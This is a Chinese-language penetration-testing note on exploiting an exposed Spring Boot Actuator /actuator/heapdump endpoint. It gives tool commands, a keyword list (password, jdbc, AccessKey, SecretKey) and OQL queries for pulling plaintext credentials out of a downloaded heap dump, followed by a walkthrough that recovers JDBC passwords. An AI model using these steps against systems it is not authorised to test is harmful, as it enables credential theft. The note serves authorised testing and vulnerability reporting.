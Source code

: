 ```yaml
---
title: Actuator Heapdump 堆转储文件泄露
date: 2022-12-20 11:10:00
categories: Pentest
tags: [实战案例, Trick]
---
```


> `Heapdump`，即堆转储文件，是一个Java进程在某个时间点上的内存快照。`HeapDump`记录了JVM中堆内存运行的情况，保存了Java对象、类以及线程栈以及本地变量等信息。

- 路径：`/actuator/heapdump`
- 工具：
   - [https://github.com/wyzxxz/heapdump_tool](https://github.com/wyzxxz/heapdump_tool)
   - [https://github.com/whwlsfb/JDumpSpider](https://github.com/whwlsfb/JDumpSpider)

```shell
# heapdump_tool
$ java -jar heapdump_tool.jar <heapdump-file>
# 选择模式
> 0,不加载文件,速度较快但精度较低,不能用某些条件
> 1,加载文件,需要花几分钟加载,可以查询heapdump中所有的数据

# 关键字查询
> password
> secret

# 获取字符串中的URL/File/IP
> geturl
> getfile
> getip

# 设置字符长度
> len=10     # 获取长度为10的所有key或者value值

# 获取指定顺序
> num=1-100  # 获取顺序1-100的字符

# 默认不输出查询结果非key-value格式的数据
> all=true   # 获取所有值

# JDumpSpider
$ java -jar JDumpSpider.jar <heapdump-file>

```

## 利用方式
0、直接使用`heapdump_tool.jar`查询关键字

```bash
password
redis.server
redis.cache
jdbc
AccessKey
SecretKey
mysql
oracle
```

1、使用JDK自带工具`jvisualvm`打开该文件。(该工具在`<JDK_HOME>/bin`目录下，Windows为`jvisualvm.exe`)
2、打开文件后已经可以看到部分敏感信息泄露
3、点击“类”，搜索`Hashtable`
4、点击进入`Hashtable$Entry`，寻找敏感信息

```sql
# 部分ODL查询语句
# 模糊查询
select * from java.lang.String s where toString(s) LIKE ".*SESSION*."

# 查询字符串是否在Key中,返回实例ID
select s from java.util.Hashtable$Entry s where /jdbc/.test(s.key.toString())  

# 查询字符串是否在Key中,返回Key全部内容
select s.key.toString() from java.util.Hashtable$Entry s where /jdbc/.test(s.key.toString())

# 查询字符串是否在Key中,返回Value的内容
select s.value.toString() from java.util.Hashtable$Entry s where /jdbc/.test(s.key.toString())

# 查询字符串是否在Value中,返回Value全部内容
select s.value.toString() from java.util.Hashtable$Entry s where /jdbc/.test(s.value.toString())

```


## 实战案例

- 通过浏览器访问对应路径将`heapdump`文件进行下载

![actuator-heapdump-堆转储文件泄露-0](assets/actuator-heapdump-堆转储文件泄露-0.jpg)

- 然后使用JDK自带工具`JVisualVM`工具对其进行分析，该工具在`<JDK_HOME>/bin/`目录下。
   - `JVisualVM`是一个监视，故障排除工具
   - 也可以使用`Eclipse MAT`对其进行分析
      - 参考：[Java内存泄漏分析系列之六：JVM Heap Dump（堆转储文件）的生成和MAT的使用](https://www.cnblogs.com/wyb628/p/8567610.html)

![actuator-heapdump-堆转储文件泄露-1](assets/actuator-heapdump-堆转储文件泄露-1.jpg)

- 其实通过`JVisualVM`加载`heapdump`文件时，已经可以看到部分敏感信息泄露

![actuator-heapdump-堆转储文件泄露-2](assets/actuator-heapdump-堆转储文件泄露-2.jpg)

- 打开后进入ODL控制台，输入如下语句，点击执行进行查询

```shell
select s.value.toString() from java.util.Hashtable$Entry s where /password/.test(s.key.toString())

```

- 也可以点击"类"，搜索`Hashtable`，然后点击进入第一个`java.util.Hashtable$Entry`

![actuator-heapdump-堆转储文件泄露-3](assets/actuator-heapdump-堆转储文件泄露-3.jpg)

![actuator-heapdump-堆转储文件泄露-4](assets/actuator-heapdump-堆转储文件泄露-4.jpg)

- 通过对左侧实例进行观察，这里发现了JDBC明文密码以及路径

![actuator-heapdump-堆转储文件泄露-5](assets/actuator-heapdump-堆转储文件泄露-5.jpg)

![actuator-heapdump-堆转储文件泄露-6](assets/actuator-heapdump-堆转储文件泄露-6.jpg)

- 打完收工，整理报告，提交审核。

## 参考

- [Springboot之actuator配置不当的漏洞利用](https://www.freebuf.com/news/193509.html)
- [Java内存泄漏分析系列之六：JVM Heap Dump（堆转储文件）的生成和MAT的使用](https://www.cnblogs.com/wyb628/p/8567610.html)
- [Springboot 获取被星号脱敏的密码的明文の方法四-测试](http://vulsee.com/archives/vulsee_2020/0807_11841.html)

